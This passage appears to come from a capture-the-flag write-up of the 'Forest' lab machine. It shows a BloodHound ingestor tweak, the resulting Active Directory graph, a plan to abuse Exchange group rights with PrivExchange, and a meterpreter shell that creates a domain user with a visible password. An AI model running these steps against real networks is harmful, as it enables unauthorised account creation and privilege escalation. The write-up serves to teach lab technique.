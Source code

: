     :::python
    def ldap_connect(self, protocol='ldap', resolver=False):
            """
            Connect to the LDAP service
            """
            logging.info('Connecting to LDAP server: %s' % self.hostname)

            # Convert the hostname to an IP, this prevents ldap3 from doing it
            # which doesn't use our custom nameservers
            #q = self.ad.dnsresolver.query(self.hostname, tcp=self.ad.dns_tcp)
            #for r in q:
                #ip = r.address
            ip = "10.10.10.161"

The ingestor create a few JSON files:

    :::text
    ls *.json
    computers.json  domains.json  groups.json  sessions.json  users.json

We start the `neo4j` database, `bloodhound` and feed him the JSON data.

When using the query "Shortest Paths to High Value Targets" we get the following
graph:

![Bloodhound complete view](/media/2020.01/forest_01.png).

## Exchange trusted subsystem and ntlmrelayx

Our `svc-alfresco` user got indirect right for the `Exchange trusted subsytem`
group.
For more information about the Active Directory Right:
[Documentation Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights).

Therefore we want to exploit our Exchange rights using
[PrivExchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

Let's create a user and add it in the `Exchange trusted subsytem` group.

    :::text
    meterpreter > shell
    Process 3256 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Users\svc-alfresco\Documents>net user created_01 M<redacted> /add /domain
    net user created_01 Marteau69! /add /domain
    The command completed successfully.
